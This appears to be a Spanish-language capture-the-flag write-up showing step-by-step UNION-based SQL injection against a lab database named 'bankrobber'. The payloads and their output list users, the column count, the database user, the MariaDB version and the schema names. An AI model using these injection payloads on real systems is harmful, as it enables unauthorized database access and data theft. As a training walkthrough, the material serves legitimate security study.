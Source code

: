 ### SQL Injection {-}

```bash
1' or 1=1-- - 
#Output
1,admin
2,gio
3,s4vitar
```

Seguimos la guia normal de un SQLI

1. Cuantas columnas hay

    ```bash
    1' order by 100-- -         -> There is a problem with your SQL syntax
    1' union select 1,2-- -     -> There is a problem with your SQL syntax
    1' union select 1,2,3-- -
    #Output
    1,admin
    1,2
    ```

    Vemos que hay 3 columnas y vemos la 1 y la 2.

1. Cual es la base de datos

    ```bash
    1' union select 1,database(),3-- -
    #Output
    1,admin
    1,bankrobber
    ```

1. Cual es el usuario que esta actualmente coriendo la base de datos

    ```bash
    1' union select 1,user(),3-- -
    #Output
    1,admin
    1,root@localhost 
    ```

1. Cual es la version de la base de datos

    ```bash
    1' union select 1,version(),3-- -
    #Output
    1,admin
    1,10.1.38-MariaDB
    ```

1. Cual son las otras bases de datos que existen

    ```bash
    1' union select 1,schema_name,3 from information_schema.schemata-- -
    #Output
    1,admin
    1,bankrobber
    1,information_schema
    1,mysql
    1,performance
    1,phpmyadmin
    1,test
    ```
